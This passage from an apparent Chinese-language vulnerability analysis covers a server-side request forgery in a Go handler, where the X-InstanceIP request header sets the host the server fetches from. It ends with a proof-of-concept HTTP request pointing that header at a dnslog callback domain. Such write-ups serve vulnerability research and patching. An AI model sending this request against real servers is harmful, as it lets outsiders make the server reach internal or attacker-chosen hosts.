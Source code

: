 ```plain
        return
    }
    respBody, err := ioutil.ReadAll(response.Body)
    if err != nil {
        c.String(http.StatusNotFound,
            fmt.Sprintf("(could not fetch response body for error %s", err))
        return
    }

    c.String(http.StatusOK, string(respBody))
    return nil
}
```

分析以上代码，`r := c.Request()`获取请求对象，从声明变量中可以发现`instanceIP = r.Header.Get("X-InstanceIP")`将请求头中的 X-InstanceIP 做为实例 IP，`strings.Replace(r.RequestURI, "testSchema/", "", 1)`替换掉请求 URI 中的"testSchema/，然后将其与获取的`instanceIP`构造成新的请求 URL，然后根据原始请求的 HTTP 方法，创建新请求对象。后面就是对请求方式判断，以及添加原始请求的头部字段操作。最后`response, err = client.Do(req)`使用`client.Do`发送新请求，然后返回请求内容。

## 构造 poc

根据以上分析，我们知道了漏洞的大致流程当访问/testScqhema/\*路由时，`SchemaHandleFunc`函数，会从请求中读取`X-InstanceIP`参数，并将其定义为`instanceIP`，然后再将请求 URI 中的"testSchema/"去掉，再将其与获取的 ip 一起构造新的请求 URL，并访问。并且`X-InstanceIP`和请求 URL 我们都可控，就可以构造任意 http 请求，让服务器访问。

```plain
GET /testSchema/sc HTTP/1.1
Host: 127.0.0.1:30103
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-InstanceIP:6e65vf.dnslog.cnn
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Mon, 14 Mar 2022 14:09:37 GMT
Connection: close
```

# 漏洞复现
